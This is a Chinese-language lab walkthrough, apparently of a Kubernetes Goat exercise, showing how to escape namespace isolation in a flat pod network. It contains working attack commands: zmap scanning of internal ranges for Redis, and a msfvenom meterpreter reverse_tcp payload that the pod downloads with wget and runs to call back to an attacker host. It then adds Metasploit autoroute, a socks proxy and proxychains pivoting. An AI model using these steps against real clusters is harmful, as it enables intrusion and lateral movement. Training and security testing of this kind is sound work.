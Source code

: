 Kubernetes namespaces bypass

2023年11月25日

Kubernetes 命名空间绕过

这是 Kubernetes 世界中的一大误解。大多数人认为，当 Kubernetes 中存在不同的命名空间并且部署和管理资源时，它们是安全的，并且无法相互访问。许多现实世界的多租户环境正在被利用，因此关键资源在内部暴露。默认情况下，Kubernetes 带有扁平网络模式，如果我们需要进行分段，那么我们必须通过创建某些边界（如 NSP（网络安全策略）等）来创建它们。在此方案中，我们将了解如何绕过命名空间并访问其他命名空间资源。

![image-20231125170430662](./assets/image-20231125170430662.png)

让我们使用以下命令在默认命名空间中运行hacker-container

```shell
kubectl run -it hacker-container --image=madhuakula/hacker-container -- sh
```

![image-20231125170447830](./assets/image-20231125170447830.png)

执行之后开始，新开一个shell

![image-20231125170456664](./assets/image-20231125170456664.png)

![image-20231125170501334](./assets/image-20231125170501334.png)

 

这样即可

![image-20231125170504760](./assets/image-20231125170504760.png)

 

```shell
kubectl exec -it hacker-container-697d665799-tfjv5 -- /bin/sh
```

 

 

1、信息收集

```shell
ip route 
```

显示和操作 Linux 系统中的内核路由表

![image-20231125170530159](./assets/image-20231125170530159.png)

 

```shell
ifconfig
```

![image-20231125170532726](./assets/image-20231125170532726.png)

 

```shell
printenv
```

是一个命令行工具，用于打印环境变量的值。在 Linux 或类 Unix 操作系统中，环境变量存储有关系统和用户环境的信息，例如路径、用户信息等。

 

 

 

在 Kubernetes 中，IP 地址范围 10.0.0.0/8 常常被用作集群内部的 Pod 网络的地址空间\[但是我这里是169.254.1.1/8\]

![image-20231125170536412](./assets/image-20231125170536412.png)

 

也就是说我们可以通过扫描这个ip段，来获取内网信息，进行横向

修改zmap配置文件/etc/zmap/blacklist.conf

删除原来文件

```shell
rm -rf /etc/zmap/blacklist.conf
```

```shell
cat > /etc/zmap/blacklist.conf << EOF
# From IANA IPv4 Special-Purpose Address Registry
# http://www.iana.org/assignments/iana-ipv4-special-registry/iana-ipv4-special-registry.xhtml
# Updated 2013-05-22

0.0.0.0/8           # RFC1122: "This host on this network"
#10.0.0.0/8          # RFC1918: Private-Use
100.64.0.0/10       # RFC6598: Shared Address Space
127.0.0.0/8         # RFC1122: Loopback
169.254.0.0/16      # RFC3927: Link Local
172.16.0.0/12       # RFC1918: Private-Use
192.0.0.0/24        # RFC6890: IETF Protocol Assignments
192.0.2.0/24        # RFC5737: Documentation (TEST-NET-1)
192.88.99.0/24      # RFC3068: 6to4 Relay Anycast
192.168.0.0/16      # RFC1918: Private-Use
198.18.0.0/15       # RFC2544: Benchmarking
198.51.100.0/24     # RFC5737: Documentation (TEST-NET-2)
203.0.113.0/24      # RFC5737: Documentation (TEST-NET-3)
240.0.0.0/4         # RFC1112: Reserved
255.255.255.255/32  # RFC0919: Limited Broadcast

# From IANA Multicast Address Space Registry
# http://www.iana.org/assignments/multicast-addresses/multicast-addresses.xhtml
# Updated 2013-06-25

224.0.0.0/4         # RFC5771: Multicast/Reserved
EOF
```

 

开始扫描\[扫描开发6379端口服务器\]：

```shell
zmap -p 6379 169.254.1/8 -o results.csv
```

![image-20231125170556475](./assets/image-20231125170556475.png)

 

扫描会一有点久

![image-20231125170559102](./assets/image-20231125170559102.png)

这些ip就是存在redis

```
redis-cli -h 10.12.0.2
```

但是我这连接来时失败，\[官方截图\]

![sc-11-5-99d01166faea40a7721658c5d2eb63e6](./assets/sc-11-5-99d01166faea40a7721658c5d2eb63e6.png)

 

 

\[思路，我想通过msf添加路由上线，但是失败\]这里我们直接使用kali msf木马

判断操作系统位数

![image-20231125170610388](./assets/image-20231125170610388.png)

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.86.218 LPORT=4444 -f elf \> 4444.elf
```

![image-20231125170612721](./assets/image-20231125170612721.png)

使用python启一个http服务下载

```
python3 -m http.server
```

![image-20231125170615496](./assets/image-20231125170615496.png)

```
下载木马：

wget <http://192.168.86.218:8000/4444.elf>

chmod +x 4444.elf 给执行权限

启动msf

msfconsole
```

![image-20231125170619053](./assets/image-20231125170619053.png)

```
use exploit/multi/handler

set payload linux/x64/meterpreter/reverse_tcp

options 查看设置
```

![image-20231125170628909](./assets/image-20231125170628909.png)

```
set lhost 192.168.86.218 监听ip

exploit 执行
```

容器处执行

![image-20231125170632039](./assets/image-20231125170632039.png)

 

![image-20231125170636204](./assets/image-20231125170636204.png)

查看路由

```
arp -a
```

添加路由\[这里添加的路由错误的\]

```
run post/multi/manage/autoroute
```

![image-20231125170640991](./assets/image-20231125170640991.png)

挂起会话

```
background
```

查看路由表

```
route print
```

![image-20231125170644962](./assets/image-20231125170644962.png)

 

设置socks代理

```
use auxiliary/server/socks_proxy

set srvhost 0.0.0.0

set srvport 1115

run
```

![image-20231125170648106](./assets/image-20231125170648106.png)

修改配置文件

```
sudo vim /etc/proxychains4.conf
```

![image-20231125170652560](./assets/image-20231125170652560.png)

nmap走代理进行扫描\[失败\]

```
proxychains4 nmap -sT -Pn 169.254.1/8
```

 

 

 
